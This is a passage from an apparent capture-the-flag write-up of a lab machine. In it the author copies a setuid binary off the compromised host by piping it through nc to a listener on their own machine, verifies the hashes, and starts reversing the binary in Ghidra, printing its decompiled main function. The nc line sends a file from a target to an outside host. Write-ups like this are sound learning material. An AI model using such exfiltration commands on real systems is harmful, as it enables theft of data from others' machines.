 At this point I can play with each of these functions, but I’m more interested
in looking at it in Ghidra.

I’ll grab a copy of this file locally with `nc`, starting my listener on my
box, and then running:

    
    
    www-data@enterprise:/$ cat /bin/lcars | nc 10.10.14.8 443
    

At my VM:

    
    
    oxdf@parrot$ nc -lnvp 443 > lcars
    listening on [any] 443 ...
    connect to [10.10.14.8] from (UNKNOWN) [10.10.10.61] 55874
    ^C
    

This will hang, but I’ll just Ctrl-c after a few seconds. Always check the
hashes after this kind of exfil:

    
    
    www-data@enterprise:/$ md5sum /bin/lcars 
    cf72dd251d6fee25e638e9b8be1f8dd3  /bin/lcars
    
    
    
    oxdf@parrot$ md5sum lcars
    cf72dd251d6fee25e638e9b8be1f8dd3  lcars
    

Looks good.

#### Ghidra

I’ll import the binary into a Ghidra project, and then open it in the code
browser and let it do the run analysis steps.

There aren’t too many functions:

![image-20210615174817844](https://0xdfimages.gitlab.io/img/image-20210615174817844.png)

`main`, `main_menu`, `bridgeAuth` all jump out. As I look through the code,
I’ll rename and retype variables to make it make more sense. `main` asks for
an access code, calls `bridgeAuth`, and exits:

    
    
    void main(void)
    
    {
      char access_code [9];
      undefined *local_10;
      
      local_10 = &stack0x00000004;
      setresuid(0,0,0);
      startScreen();
      puts("Enter Bridge Access Code: ");
      fflush(stdout);
      fgets(access_code,9,stdin);
      bridgeAuth(access_code);
      return 0;
    }
    